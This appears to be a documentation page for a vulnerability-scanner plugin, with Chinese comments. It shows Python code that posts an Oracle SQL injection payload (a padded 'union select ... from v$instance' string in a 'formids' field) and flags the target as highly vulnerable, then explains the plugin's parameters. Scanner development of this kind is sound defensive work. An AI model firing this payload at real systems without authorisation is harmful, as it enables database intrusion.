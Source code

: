```python
            proxies = {
                # "http": "http://" + str(ProxyIps) , # 使用代理前面一定要加http://或者https://
                "http": "http://" + str(ProxyIp)
            }
            resp = s.post(payload_url,
                          data={'formids': '11111111111)))' + '\x0a\x0d' * 360 + 'union select NULL,instance_name from '
                                                                                 'v$instance order by (((1'},
                          headers=headers, timeout=6, proxies=proxies,verify=False)
        elif ProxyIp==None:
            resp = s.post(payload_url,
                         data={'formids': '11111111111)))' + '\x0a\x0d' * 360 + 'union select NULL,instance_name from '
                                                                                'v$instance order by (((1'},
                         headers=headers, timeout=6, verify=False)
        con = resp.text
        code = resp.status_code
        if code == 200 and con.lower().find('''"draggable":''') != -1 and con.lower().find(
                '''"checked":''') != -1 and con.lower().find('''"id":''') != -1 and con.lower().find(
                '''"text":''') != -1:
            Medusa = "{} 验证数据:\r\nRequests:{}\r\n".format(url,resp.headers)
            _t=VulnerabilityInfo(Medusa)
            web=ClassCongregation.VulnerabilityDetails(_t.info)
            web.High() # serious表示严重，High表示高危，Intermediate表示中危，Low表示低危
            return (str(_t.info))
    except Exception:
        _ = VulnerabilityInfo('').info.get('algroup')
        _l = ClassCongregation.ErrorLog().Write(url, _)  # 调用写入类传入URL和错误插件名
```

##### 参数

###### Url

- 扫描器传入的链接

###### RandomAgent

- 扫描器传入的随机或者自定义的User-Agent

###### ProxyIp

- 扫描器出入的代理，默认是关闭的

##### 注意点:

###### 端口

- 函数已经对端口进行处理，当存在特定的端口的时候可以把端口的值改为固定的端口号(例如```ActiveMQ```的```8161```端口

  ```
  scheme + "://" + url +":8161"+ payload
  ```
